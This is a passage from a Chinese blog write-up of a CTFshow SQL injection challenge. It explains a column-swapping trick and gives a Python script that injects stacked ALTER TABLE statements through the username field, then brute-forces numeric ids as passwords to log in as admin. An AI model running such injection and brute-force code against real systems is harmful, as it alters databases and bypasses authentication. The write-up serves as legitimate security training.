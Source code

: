 

<img src="https://i-blog.csdnimg.cn/blog_migrate/d9a24d5ba480948c13ae38ab5734a978.png" alt="" style="max-height:234px; box-sizing:content-box;" />


这个时候 我们把原本的id修改为passwd字段

然后最后再把ppp修改为id字段

```sql
alter table user change column `ppp` `id` varchar(255);
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/b6ecc7f67f7dab52db342b94afefc871.png" alt="" style="max-height:187px; box-sizing:content-box;" />


这个时候我们是不是需要的是 passwd 和 name 来实现登入

而且我们知道name 我们是不是只需要爆破 passwd的id值 id肯定为数字 大不了就从0-1000

肯定会有的

这样我们就实现了登入

写一下脚本

```cobol
import requests
 
url = "http://f88e8a6b-de99-4b6d-a90b-8efe9fa533c9.challenge.ctf.show/api/"
 
for i in range(1000):
    if i == 0 :
        paylaod = {
            'username':"0;alter table ctfshow_user change column `pass` `ppp` varchar(255);alter table ctfshow_user change column `id` `pass` varchar(255);alter table ctfshow_user change column `ppp` `id` varchar(255);",
            'password':i
        }
        re = requests.post(url=url,data=paylaod)
    data = {
        'username':'0x61646d696e',
        'password':i
    }
    r = requests.post(url=url, data=data)
    # print(r.text)
    if r"登陆成功" in r.json()['msg']:
        print(r.json()['msg'])
        break
```

出处

 [[CTFSHOW]SQL注入(WEB入门)_y4tacker ctfshow-CSDN博客](https://blog.csdn.net/solitudi/article/details/110144623) 

## web199 使用text 替换varchar(200)
